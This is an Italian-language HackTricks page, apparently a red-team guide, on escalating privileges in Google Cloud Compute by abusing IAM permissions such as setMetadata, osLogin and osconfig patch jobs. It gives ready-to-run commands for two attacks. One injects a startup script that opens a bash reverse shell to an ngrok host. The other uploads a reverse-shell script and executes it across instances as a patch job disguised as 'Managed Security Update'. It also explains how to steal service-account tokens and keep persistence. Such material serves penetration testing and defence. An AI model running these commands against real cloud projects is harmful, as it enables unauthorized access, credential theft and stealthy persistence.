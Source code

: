 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Per ulteriori informazioni su Compute e VPC (rete) in GCP controlla:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Nota che per eseguire tutti gli attacchi di escalation dei privilegi che richiedono di modificare i metadati dell'istanza (come aggiungere nuovi utenti e chiavi SSH) è **necessario avere permessi `actAs` sul SA allegato all'istanza**, anche se il SA è già allegato!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Con quel permesso puoi **modificare** le informazioni di **metadata** di un'**istanza** e cambiare le **chiavi autorizzate di un utente**, o **creare** un **nuovo utente con permessi sudo**. Pertanto, sarai in grado di eseguire via SSH in qualsiasi istanza VM e rubare l'Account di Servizio GCP con cui l'istanza sta funzionando.\
Limitazioni:

* Nota che gli Account di Servizio GCP in esecuzione nelle istanze VM per impostazione predefinita hanno un **ambito molto limitato**
* Dovrai essere **in grado di contattare il server SSH** per accedere

Per ulteriori informazioni su come sfruttare questo permesso controlla:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Puoi anche eseguire questo attacco aggiungendo un nuovo script di avvio e riavviando l'istanza:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Questo permesso fornisce i **stessi privilegi del permesso precedente** ma su istanze specifiche invece che su un intero progetto. **Gli stessi exploit e limitazioni della sezione precedente si applicano**.

### `compute.instances.setIamPolicy`

Questo tipo di permesso ti permetterà di **assegnare a te stesso un ruolo con i permessi precedenti** e di elevare i privilegi abusando di essi.

### **`compute.instances.osLogin`**

Se **OSLogin è abilitato nell'istanza**, con questo permesso puoi semplicemente eseguire **`gcloud compute ssh [INSTANCE]`** e connetterti all'istanza. Non **avrai privilegi di root** all'interno dell'istanza.

{% hint style="success" %}
Per effettuare correttamente il login con questo permesso all'interno dell'istanza VM, devi avere il permesso `iam.serviceAccounts.actAs` sul SA associato alla VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Se **OSLogin è abilitato nell'istanza**, con questo permesso puoi semplicemente eseguire **`gcloud compute ssh [INSTANCE]`** e connetterti all'istanza. Avrai **privilegi di root** all'interno dell'istanza.

{% hint style="success" %}
Per effettuare correttamente il login con questo permesso all'interno dell'istanza VM, devi avere il permesso `iam.serviceAccounts.actAs` sul SA associato alla VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

È possibile **creare una macchina virtuale con un Service Account assegnato e rubare il token** dell'account di servizio accedendo ai metadati per elevare i privilegi su di esso.

Lo script di exploit per questo metodo può essere trovato [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Se hai i permessi **`osconfig.patchDeployments.create`** o **`osconfig.patchJobs.exec`** puoi creare un [**lavoro di patch o distribuzione**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Questo ti permetterà di muoverti lateralmente nell'ambiente e ottenere l'esecuzione di codice su tutte le istanze di calcolo all'interno di un progetto.

Nota che al momento **non hai bisogno del permesso `actAs`** sul SA associato all'istanza.

Se vuoi sfruttare manualmente questo, dovrai creare o un [**lavoro di patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **o** [**distribuzione**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Per un lavoro di patch esegui:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Per distribuire un'implementazione di patch:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Lo strumento [patchy](https://github.com/rek7/patchy) potrebbe essere stato utilizzato in passato per sfruttare questa misconfigurazione (ma ora non funziona).

**Un attaccante potrebbe anche abusare di questo per la persistenza.**

### `compute.machineImages.setIamPolicy`

**Concediti permessi extra** per l'immagine di calcolo.

### `compute.snapshots.setIamPolicy`

**Concediti permessi extra** per uno snapshot del disco.

### `compute.disks.setIamPolicy`

**Concediti permessi extra** per un disco.

### Bypass Access Scopes

Seguendo questo link troverai alcune [**idee per provare a bypassare gli access scopes**](../).

### Local Privilege Escalation in GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
